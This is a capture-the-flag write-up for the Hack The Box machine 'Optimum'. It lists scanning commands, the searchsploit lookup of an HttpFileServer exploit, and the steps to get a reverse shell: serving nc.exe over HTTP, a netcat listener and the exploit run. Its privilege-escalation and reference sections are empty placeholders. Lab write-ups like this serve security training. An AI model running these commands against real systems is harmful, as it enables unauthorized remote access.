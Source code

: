 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)



## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)

```
searchsploit httpfileserver

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)


## Exploitation & Gaining Access
```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


## Privilege Escalation




# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ x


## CVE Scripting
+ x


## Tools
+ x


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1


## For More
- x
